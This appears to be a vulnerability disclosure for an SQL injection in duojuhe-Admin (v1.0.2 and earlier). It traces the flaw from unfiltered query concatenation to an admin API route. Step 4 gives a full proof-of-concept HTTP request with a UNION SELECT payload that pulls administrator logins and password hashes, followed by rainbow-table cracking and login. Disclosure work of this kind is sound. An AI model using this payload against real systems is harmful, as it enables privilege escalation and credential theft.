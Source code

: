 # The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.

##### Step 1:

Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](./src/img/2025-04-26-154408.png)



##### Step 2:

After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](./src/img/2025-04-26-162251.png)

![2025-04-26 154903](./src/img/2025-04-26-154903.png)



##### Setp 3:

The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](./src/img/2025-04-26-154010.png)



##### Step 4:

To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

###### 1.Log in to an ordinary user to get a token.

![2025-04-26 144221](./src/img/2025-04-26-144221.png)

![2025-04-26 144338](./src/img/2025-04-26-144338.png)

###### 2.Replace token and send payload.

![2025-04-26 144418](./src/img/2025-04-26-144418.png)

![2025-04-26 144517](./src/img/2025-04-26-144517.png)

###### 3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](./src/img/2025-04-26-163147.png)

![2025-04-26 163516](./src/img/2025-04-26-163516.png)
